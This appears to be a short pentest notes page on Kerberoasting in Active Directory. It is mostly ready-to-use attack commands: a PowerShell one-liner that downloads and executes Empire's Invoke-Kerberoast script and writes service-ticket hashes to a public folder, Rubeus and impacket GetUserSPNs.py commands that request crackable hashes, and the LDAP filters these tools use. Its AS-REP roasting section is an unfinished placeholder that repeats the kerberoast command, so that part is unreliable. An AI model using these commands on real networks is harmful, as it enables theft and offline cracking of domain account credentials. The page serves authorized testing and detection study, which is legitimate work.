 ```yaml
---
title: "Kerberoasting"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### EmpireProject Kerberoasting one-liner

```
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000
```

#### Kerberoasting using Rubeus
The following command shows an example of how to peroform a kerberoasting attack using Rubeus. The outfile parameter ensures that the hashes are in a crackable (non newline delimited) format.

```.\Rubeus.exe kerberoast /creduser:<Domain>\<User> /credpassword:<Password> /domain:<Domain> /dc:<DomainController> /format:hashcat /outfile:roast.txt```

#### Kerberoasting from a non-domain joined machines using impackets GetUserSPNs.py

```
GetUserSPNs.py domain.local/username:password  -request
```
The following Rubeus command executes a keberoast attack for all users within the domain that have a Service Principle Name (SPN) configured.

```Rubeus kerberoast```

The underlying LDAP query Rubeus executes (by default) to look for users is the following one:

```(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))`"```

Broken down, it does the following:

* & - This prefix asserts all subsequent filters must be met.
* (samAccountType=805306368) – Only Active Directory users (not computers, groups, etc.)
* (servicePrincipalName=*) – User accounts that have any service principal name (SPN) entries
* (!samAccountName=krbtgt) – Omit the krbtgt account from this search
* (!(UserAccountControl:1.2.840.113556.1.4.803:=2)) – Omit accounts that are disabled

Rubeus also has flags for directly outputting to a hashcat-crackable format.



#### AS-REP Roasting using Rubeus (ToDo)
```Rubeus kerberoast```

Here the LDAP query looks as follows:
```(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))```
Broken down, it does the following:
* & - All subsequent filters must be met.
* (samAccountType=805306368) - Only Active Directory users (not computers, groups, etc.)
* (userAccountControl:1.2.840.113556.1.4.803:=4194304) – Users have the "Do not require Kerberos preauthentication" enabled.


#### References
https://labs.f-secure.com/blog/attack-detection-fundamentals-discovery-and-lateral-movement-lab-1
